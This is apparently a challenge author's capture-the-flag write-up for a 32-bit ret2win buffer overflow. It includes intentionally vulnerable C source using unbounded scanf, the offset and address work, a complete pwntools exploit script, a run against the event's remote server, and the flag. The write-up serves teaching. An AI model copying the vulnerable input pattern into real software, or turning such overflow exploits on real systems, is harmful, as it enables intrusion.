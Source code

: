 # For The Win!

## Pwn

### The win is there!  All you need to do is grab it.

> NOTE1:  The address for the win() function in the attached binary is off by 0x10 from the binary on the remote server.  If you add 0x10 to the win() function, it will work.

TL;DR - compiling the binary in the Docker container on a different OS changed the addresses from the locally built binary.
The note above was added after the CTF started.  When I originally created the binary for the challenge, I did it from the command line and wrote a solver 
script for it, which worked.  But, and I don't remember why, there was trouble copying the binary to the Docker container, so I compiled the binary in the 
container.  Worked like a charm, except the address was now off by 0x10.  I haven't had a chance to figure out why.  The OS for the host it's running is 
Amazon Linux 2 and the Docker container is Ubuntu, and the host I originally created it on is Kali Debian.  I'm not sure if it's because of Docker or the 
different base OS's, but lesson learned.

Anyway, this challenge came with a binary and the source code.

```C
#include <stdio.h>
#include <stdlib.h>

// gcc ftw.c -o ftw -fno-stack-protector  -no-pie -m32

FILE *fptr;
char daflag[32];

void win(long first, long second) {
   fptr = fopen("./flag.txt", "r");
   if (fptr == NULL) {
	printf("No flag.txt file found\n");
	fflush(stdout);
	exit(1);
   }
   fgets(daflag, 32, fptr);
   printf("Wow! Have a flag: %s\n\n", daflag);
   fflush(stdout);
}

void whodis() {
    char buffer[32];

    printf("Enter your name: ");
    fflush(stdout);
    scanf("%s", buffer);
    printf("\nI don't know you, %s. Cya!\n", buffer);
}

int main() {
    whodis();
    return 0;
}
```
There is a win() function that prints the flag if called, and a whodis() function that prompts the user for input and prints it back to the screen.  
The issue is that the buffer variable is 32 bytes, but scanf reads as many characters as the user enters.  Opening it up in gdb-pwndbg and looking 
at the primary functions using `info functions`, you see:

![info.png](./info.png)

From this, we can see that 0x080491c6 is the address of the win() function in this binary. (see NOTE1 if you got 0x080491b6)

Next, run the binary in the debugger and input a bunch of characters to overflow the buffer.  In this case, I used the pwntools `cyclic` command to generate 
100 characters, and I pasted them into the prompt.

![overflow](./overflow.png)

Since this is a 32-bit binary, we need to know what is in the EIP register when the buffer overflows.  In this case, it's "laaa", and if you put that in 
`cyclic` with the lookup switch, we find it starts at the 44th character.

![offset](./offset.png)

With these two pieces of information, I wrote a pwntools script with a payload of 44 characters, then added the address of the win() function:

```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './ftw'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 44

# Start program
io = start()
context.log_level = "DEBUG"


# Build the payload
payload = flat(
    offset * b"A",
    p32(0x080491b6),
)

write('payload', payload)

# Send the payload

io.sendlineafter(b'name: ', payload)
#io.recvuntil(b'Cya!\n')
print(io.recvline().decode().strip())
print(io.recvline().decode().strip())
print(io.recvline().decode().strip())
print(io.recvline().decode().strip())
# Got Shell?
io.close()
```

```sh
% python3 solver.py REMOTE ctf.teractf.com 2229 SILENT

I don't know you, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAƑ\x04\x08. Cya!
Wow! Have a flag: teractf{1_gue55_ur_init_2_w1n_1
```

> NOTE2: Notice how the flag doesn't end with a "}"?  That's because the goofball who wrote the code (read: me) made the buffer for the flag too small. :rage: :rage: :rage: It's set at 32 bytes, but the flag is 33 characters and needs to end in a null byte (\0), so it needs 34 characters.  So everyone who sent me the flag from above, I gave the "t}" to them.  Some figured it out on their own...Kudos to them! 


**teractf{1_gue55_ur_init_2_w1n_1t}**

